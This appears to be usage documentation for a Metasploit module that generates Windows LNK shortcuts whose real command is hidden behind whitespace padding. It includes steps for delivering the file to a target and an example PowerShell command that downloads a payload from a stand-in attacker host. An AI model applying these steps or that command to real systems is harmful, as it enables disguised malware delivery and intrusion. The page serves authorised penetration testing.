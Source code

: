 ## Vulnerable Application

Windows systems where LNK files are processed, such as in Explorer or when shortcuts are executed.
This can lead to arbitrary command execution via manipulated command line buffers.

References:
- [ZDI-CAN-25373](https://www.zerodayinitiative.com/advisories/ZDI-CAN-25373/)
- [Windows LNK Research](https://zeifan.my/Windows-LNK/)
- [Gist Example](https://gist.github.com/nafiez/1236cc4c808a489e60e2927e0407c8d1)
- [Trend Micro Analysis](https://www.trendmicro.com/en_us/research/25/c/windows-shortcut-zero-day-exploit.html)

Disclosure Date: 2025-07-19.

## Verification Steps

1. Start msfconsole.
1. Load the module: `use auxiliary/fileformat/windows_lnk_padding`.
1. Optionally customize FILENAME, DESCRIPTION, ICON_PATH, or BUFFER_SIZE.
1. Execute the module: `run`.
1. A malicious LNK file will be generated.
1. Deliver the LNK file to the target Windows system.
1. Open the LNK file to trigger command execution (e.g., launching calc.exe).

## Options


### COMMAND

The command to execute when the LNK is opened.

Default: `C:\\Windows\\System32\\calc.exe`

Example:
```
set COMMAND powershell.exe -c "Invoke-WebRequest -Uri http://attacker.com/payload"
```

### DESCRIPTION

Optional description for the LNK file. If not set, a random sentence is generated.

Example:
```
set DESCRIPTION Important Document
```

### ICON_PATH

Optional path to an icon for the LNK file. If not set, a random system icon path is generated.

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### BUFFER_SIZE

The size of the whitespace padding buffer before the command (must be sufficient to avoid truncation).

Default: 900

Example:
```
set BUFFER_SIZE 1000
```

## Scenarios

### Basic Command Execution on Windows

Target: Any Windows system (e.g., Windows 10 or later).

Generate an LNK that launches Calculator with custom padding:

```
msf > use auxiliary/fileformat/windows_lnk_padding
msf auxiliary(fileformat/windows_lnk_padding) > set FILENAME calc.lnk
FILENAME => calc.lnk
msf auxiliary(fileformat/windows_lnk_padding) > set COMMAND C:\\Windows\\System32\\calc.exe
COMMAND => C:\\Windows\\System32\\calc.exe
msf auxiliary(fileformat/windows_lnk_padding) > set BUFFER_SIZE 900
BUFFER_SIZE => 900
msf auxiliary(fileformat/windows_lnk_padding) > set DESCRIPTION Calculator Shortcut
DESCRIPTION => Calculator Shortcut
msf auxiliary(fileformat/windows_lnk_padding) > set ICON_PATH %SystemRoot%\\System32\\calc.exe
ICON_PATH => %SystemRoot%\\System32\\calc.exe
msf auxiliary(fileformat/windows_lnk_padding) > run

[*] Generating LNK file: calc.lnk
[+] Successfully created calc.lnk
[*] Command line buffer size: 900 bytes
[*] Target command: C:\\Windows\\System32\\calc.exe
[*] Auxiliary module execution completed
```
